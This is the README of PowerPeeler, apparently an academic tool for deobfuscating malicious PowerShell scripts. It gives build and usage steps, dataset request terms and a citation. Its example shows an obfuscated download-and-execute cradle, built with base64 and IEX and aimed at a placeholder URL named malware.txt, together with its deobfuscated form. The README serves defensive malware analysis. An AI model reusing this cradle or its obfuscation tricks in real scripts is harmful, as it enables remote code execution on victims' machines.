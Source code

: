 # PowerPeeler

>A Precise and General Dynamic Deobfuscation Method for PowerShell Scripts

[中文版](README.zh-CN.md)



### Related resources

- conference paper: in coming
- full paper: [arxiv](https://arxiv.org/abs/2406.04027)



### Usage

1. Build environment requirement

   - base environment: refer to [PowerShell official build instruction](https://github.com/PowerShell/PowerShell#building-the-repository)
   - .net core 7.0.101
   - pwsh/powershell

2. Runtime environment

   - PSScriptAnalyzer(optional, for code formatting)
   - [Invoke-Deobfuscation](https://gitee.com/snowroll/invoke-deobfuscation)(optional, static and dynamic combination)

3. Get the tool

   ```bash
   git clone https://github.com/zhengbili/PowerPeeler
   ```

   Or

   ```bash
   git clone https://gitee.com/snowroll/powerpeeler
   ```

4. Compile sandbox

   ```powershell
   cd PowerPeeler
   pwsh ./build.ps1
   ```

5. Tool usage

   1. Change the directory to prevent some malicious scripts from polluting the current directory: ```cd sandbox```
   2. Enter special pwsh environments: ```../pwsh```
   3. Execute anti-obfuscation scripts in the special pwsh environment

   ```powershell
   ../Deobfuscation/deob.ps1 --SettingType [Simple|Analysis|SemanticAnalysis]  --InputPath InputFileLocation --OutputPath OutputFileLocation [-cmd] [-log]
   ```
   ​	```-st --SettingType```	deobfuscation mode, with several presets, the code can be modified yourself
   ​	```-ip --InputPath```	input file location
   ​	```-op --OutputPath```	output file location
   ​	```-cmd --IsCmd```	cmd one-line mode
   ​	```-log --SaveLog```	save log



### Example

```../pwsh ../Deobfuscation/deob.ps1 -ip in.ps1 -op out.ps1```

- in.ps1

  ```powershell
  Ie`X ("{2}{0}{1}" -f 'ost h', 'ello', 'write-h')
  $xdjmd  =   'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG'
  $lsffs =   '8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA='
  $sdfs = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($xdjmd + $lsffs))
  .($psHoME[4]+$PShOmE[30]+'x') (Ne`W-oB`JeCt Net.Web`C`lient).downloadstring($sdfs)
  ```

- out.ps1

  ```
  Write-Host ([string]'hello')
  $xdjmd = ([string]'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG')
  $lsffs = ([string]'8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA=')
  $sdfs = ([string]'https://test.com/malware.txt')
  .'Invoke-Expression' (New-Object ([string]'Net.WebClient')).DownloadString(([string]'https://test.com/malware.txt'))
  ```



### DataSet Request

If you want the datasets (D-Script and D-Cmdline), please send me an email. My email address is chaihuajun@qianxin.com. There are some requirements for the email as follows.

- You need to send me an email with a copy to both my mentor yinglingyun@qianxin.com and your mentor.
- In the body of the email, you need to state the purpose of the dataset request and the use of the dataset.
- Moreover, you need to clearly indicate that the results generated by the dataset will cite our paper.



### Citation format

```
@misc{li2024powerpeelerprecisegeneraldynamic,
      title={PowerPeeler: A Precise and General Dynamic Deobfuscation Method for PowerShell Scripts}, 
      author={Ruijie Li and Chenyang Zhang and Huajun Chai and Lingyun Ying and Haixin Duan and Jun Tao},
      year={2024},
      eprint={2406.04027},
      archivePrefix={arXiv},
      primaryClass={cs.CR},
      url={https://arxiv.org/abs/2406.04027}, 
}
```



